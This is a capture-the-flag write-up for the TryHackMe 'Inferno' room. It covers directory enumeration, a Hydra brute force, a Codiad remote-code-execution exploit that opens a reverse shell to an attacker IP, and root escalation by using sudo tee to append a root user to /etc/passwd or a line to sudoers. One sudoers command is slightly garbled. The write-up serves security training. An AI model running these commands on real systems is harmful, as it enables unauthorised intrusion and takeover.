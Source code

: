 # 69 - Inferno

Room Link --> [https://tryhackme.com/room/inferno](https://tryhackme.com/room/inferno)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.103.251/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/inferno
```
{% endcode %}

We have an authentication page

<figure><img src=".gitbook/assets/image (463).png" alt=""><figcaption></figcaption></figure>

#### Bruteforce with Hydra

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

`admin : dante1` .

Logged in&#x20;

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

We search Google for any exploit since we are authenticated as admin user and found: this [repo](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)

So because we are authenticating twice, we use the cmd:

{% code overflow="wrap" lineNumbers="true" %}
```
python2.7 exploit.py http://admin:dante1@10.10.103.251/inferno/ admin dante1 10.18.88.214 9001 linux
```
{% endcode %}

And got shell

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a .Download.dat file in the /home/dante dir, contains some cipher text.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got an SSH credentials: `dante : V1rg1l10h3lpm3`&#x20;

And we are logged in.

### Priv Esc

`sudo -l` - we can run tee as root.

There’s a binary available to run it as sudo. “**tee”** reads from standard input and write to standard output and files. So, we can edit any configuration file to gain root shell

We can use tee to add config to files.

#### /etc/passwd file

Lets add a new root user to /etc/passwd file

{% code overflow="wrap" %}
```bash
dante@Inferno:~$ LFILE=/etc/passwd

dante@Inferno:~$ echo "dking:$(openssl passwd -6 -salt noraj password):0:0:noraj:/root:/bin/bash" | sudo tee -a "$LFILE"

dante@Inferno:~$ su dking
```
{% endcode %}

And we are root.

Or

#### Sudoers file

We can also add dante to the sudoers file to execute all sudo cmds.

```bash
echo "dante ALL=(root) ALL" | sudo tee -a /etc/sudoers o tee -a /etc/sudoers
```

Done!


